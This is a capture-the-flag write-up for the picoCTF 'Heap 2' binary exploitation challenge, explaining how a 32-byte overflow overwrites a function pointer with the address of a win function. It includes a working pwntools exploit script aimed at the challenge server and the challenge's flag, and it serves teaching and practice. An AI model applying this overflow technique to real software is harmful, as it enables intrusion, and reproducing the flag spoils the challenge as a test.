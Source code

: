# CTF Write-Up: [Heap 2][Binary Exploitation]

## Description
>Can you handle function pointers?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{and_down_the_road_we_go_dde41590}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools
- gdb
## Write-Up

### Preparatory Phase
Static analysis of the source code shows our likely target function: ![alt text](images/image.png).
Now running the binary we receive a similar image was from the [Heap 1](#) exercise: 
![alt text](images/image-2.png)
Again the offset between the start of the buffer and bico is 32 bytes.
Using `gdb` we find that the instruction pointer `rip` has the value `bico`. 
![alt text](images/image-1.png)

Therefore a natural attack would be to override the instruction pointer with the address to the `win` function. Using gdb once again :), we find that: ![alt text](images/image-3.png)

Now we have all the pieces of information required to conduct an attack.
### Attack Phase
Once again like from [Heap 1](#) we write 32 bytes worth of junk in order to reach the start of the instruction pointer. 

Then we write the address `0x4011a0` ensuring we are packing in little-endian format as running `file chall` we find out: ![alt text](images/image-4.png) The key areas we look out for in that command is whether it is a 32 or 64-bit architecture and/or its endianess denoted by `LSB executable` for little endian and `MSB executable` for big endianess.

Using a python script we were able to obtain: ![alt text](images/image-5.png)
### Final Solution/Payload
```py
from pwn import *

local = False 

host = 'mimas.picoctf.net'
port = 50693

io = remote(host, port)
payload = b'A' * 32
# 0x4011a0
payload += p64(0x4011a0)

print(payload)
io.recvuntil('Enter your choice:')
io.sendline(b'2')
print(io.recvuntil('Data for buffer: '))
io.sendline(payload)
io.recv()
io.sendline(b'4')
print(io.recvall())

```

### Lessons Learnt
- Ensure to use `p64(<address>)` when dealing with 64-bit binaries and `p32(<address>)` when dealing with 32-bit binaries. 
## References
- https://www.linuxquestions.org/questions/linux-newbie-8/what-is-the-difference-between-lsb-and-msb-executables-430701/
- https://owasp.org/www-community/vulnerabilities/Buffer_Overflow

